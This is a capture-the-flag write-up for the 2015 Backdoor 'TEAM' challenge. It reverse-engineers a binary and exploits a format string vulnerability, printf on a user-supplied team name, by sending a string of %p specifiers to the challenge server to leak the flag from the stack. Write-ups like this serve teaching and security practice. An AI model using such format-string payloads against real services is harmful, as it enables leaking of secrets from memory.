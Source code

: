 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - TEAM Writeup"
date: 2015-04-03 03:16:39 +0430
comments: false
categories: ctf backdoor exploit fmt leak
---
```


**Backdoor 2015 TEAM Writeup**  
**Point = 600**  
**Category = Exploit**  

> There is a wierd kind of authentication service running: nc hack.bckdr.in 8004. The binary can be found here. The vampire says that there is no need for bruteforce.

```
$ file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=3fb6836dc9249bd1e7c33e023d563ff429d7dca4, stripped
$ checksec.sh --file team
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   team

```

Ok looking into the binary in IDA shows us two function `0x08048769` and `0x080486ad` are important to us. the first one can be seen bellow:
<!--more-->
```
int sub_8048769()
{
  const char *v0; // ST18_4@1
  const char *v1; // ST1C_4@1

  v0 = (const char *)malloc(0xC8u);
  v1 = (const char *)malloc(0x64u);
  printf("Enter teamname: ");
  fflush(stdout);
  __isoc99_scanf("%200s", v0);
  printf("Enter flag: ");
  fflush(stdout);
  __isoc99_scanf("%100s", v1);
  sleep(2u);
  sub_80486AD(v0, v1);
  free((void *)v0);
  free((void *)v1);
  return 0;
}
```
As you can see there is no potential flaw so we skip to second one:

```
signed int __cdecl sub_80486AD(const char *a1, const char *a2)
{
  signed int result; // eax@2
  int v3; // edx@7
  FILE *stream; // [sp+24h] [bp-74h]@1
  char s; // [sp+28h] [bp-70h]@3
  int v6; // [sp+8Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  stream = fopen("flag.txt", "r");
  if ( stream )
  {
    fgets(&s, 100, stream);
    printf(a1);
    if ( !strcmp(&s, a2) )
      puts(" : correct flag!");
    else
      puts(" : incorrect flag. Try again.");
    fclose(stream);
    result = 0;
  }
  else
  {
    result = 1;
  }
  v3 = *MK_FP(__GS__, 20) ^ v6;
  return result;
}
```

interesting! in this function flag.txt will be opened and read but the important part is `printf(a1);`. remember previous function `a1` is the `v0` var which have the teamname! So there is a *Format String Vulnerability*. And the abuse is pretty simple, just printing the stack addresses to leak the flag:

```
$ cat 5
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
A

$ cat 5 | nc hack.bckdr.in 8004
Enter teamname: Enter flag: 0x640x9dd11400xf770ec20(nil)0x10x9dd10d80x9dd10080xf773855c0x9dd11400x356633640x643630310x376531390x323461370x383565620x636135300x613835640x643862310x313164610x383766610x356363660x313833660x666432630x363336350x353335390x626631370x80483000x1(nil)0x1(nil)(nil)0xff8b30880xf772b5000x10x5fc69000(nil)(nil)0xff8b3088 : incorrect flag. Try again.
```

you can see that 
```
0x356633640x643630310x376531390x323461370x383565620x636135300x613835640x643862310x313164610x383766610x356363660x313833660x666432630x363336350x353335390x62663137
```
is our flag. using python `struct` module for all gives us this one:

```
d3f5106d91e77a42be5805acd58a1b8dad11af78fcc5f381c2df5636953571fb
```

which added 600pts to our points.

HAMIDx9
